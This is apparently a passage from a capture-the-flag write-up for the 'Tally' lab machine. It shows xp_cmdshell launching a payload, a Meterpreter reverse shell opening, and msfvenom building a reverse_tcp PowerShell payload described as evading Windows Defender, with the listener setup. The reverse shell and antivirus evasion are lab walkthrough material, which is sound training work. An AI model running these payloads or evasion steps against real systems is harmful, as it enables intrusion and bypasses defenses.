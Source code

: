 {% highlight shell %}
1> xp_cmdshell 'cd C:\FTP\Intranet\ & Malware.exe';
2> go
{% endhighlight %}  

After executing it, in our metasploit window we will receive our shell.

{% highlight shell %}
[*] Sending stage (179779 bytes) to 10.10.10.59
[*] Meterpreter session 1 opened (10.10.14.7:6969 -> 10.10.10.59:56560 at 2019-03-25 18:18:18 

meterpreter > shell
Process 1524 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\FTP\Intranet>whoami
whoami
tally\sarah
Excellent, we already have a shell in Tally with the user sarah.
{% endhighlight %}  

Another easiest way to get a shell on this machine, would be using a metasploit auxiliary.

## Getting shell #2  
## Evading Windows Defender with Metasploit  

Let’s make a meterpreter payload using msfvenom. If we use the psh-reflection format our payload evade the antivirus detection:  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally]─[root@Arthorias]─[0]─[3508]
╰─[:)] # msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=6969 -f psh-reflection -o Malware2.ps1
{% endhighlight %}  

We configure our listener using *exploit/multi/handler*:  

{% highlight bash %}
msf5> use exploit/multi/handler
msf5 exploit(handler) > options

Module options (exploit/multi/handler):

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.7       yes       The listen address
   LPORT     6969             yes       The listen port

msf exploit(handler) > exploit
[*] Started reverse TCP handler on 127.0.0.1:6969
{% endhighlight %}  

